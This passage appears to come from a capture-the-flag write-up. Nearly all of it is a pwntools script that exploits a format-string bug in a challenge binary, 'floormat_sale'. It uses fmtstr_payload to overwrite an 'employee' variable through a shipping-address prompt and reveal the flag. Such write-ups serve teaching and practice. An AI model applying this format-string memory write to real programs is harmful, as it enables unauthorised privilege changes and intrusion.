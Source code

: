 So here's a `pwntools` script to solve the challenge for us! It will overwrite the `employee` variable with a `1`.

### solve.py

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDB script below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # Remote execution
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Local execution
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
b *employee_access
continue
'''

# Set up pwntools for the correct architecture
exe = './floormat_sale'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# Address of the 'employee' variable
employee_addr = elf.symbols['employee']
info(f"Employee variable address: {hex(employee_addr)}")

# Manually set the format string offset
offset = 10
info(f"Using format string offset: {offset}")

# Craft the payload to overwrite 'employee' variable
# We include the address of 'employee' in the payload
# Then use %<offset>$n to write to that address

# Since the address needs to be on the stack, we place it appropriately
payload = fmtstr_payload(offset, {employee_addr: 1}, write_size='int')

# Start the program
io = start(level='warn')

# Send the choice (option 6)
io.sendlineafter(b'Enter your choice:', b'6')

# Wait for the shipping address prompt
io.recvuntil(b'Please enter your shipping address:')

# Send the payload
io.sendline(payload)

# Receive the output to synchronize
io.recvuntil(b'Your floor mat will be shipped to:')

# Receive and print the flag
io.recvuntil(b'Exclusive Employee-only Mat will be delivered to: ')
flag = io.recvline()
success(f'Flag: {flag.decode()}')
```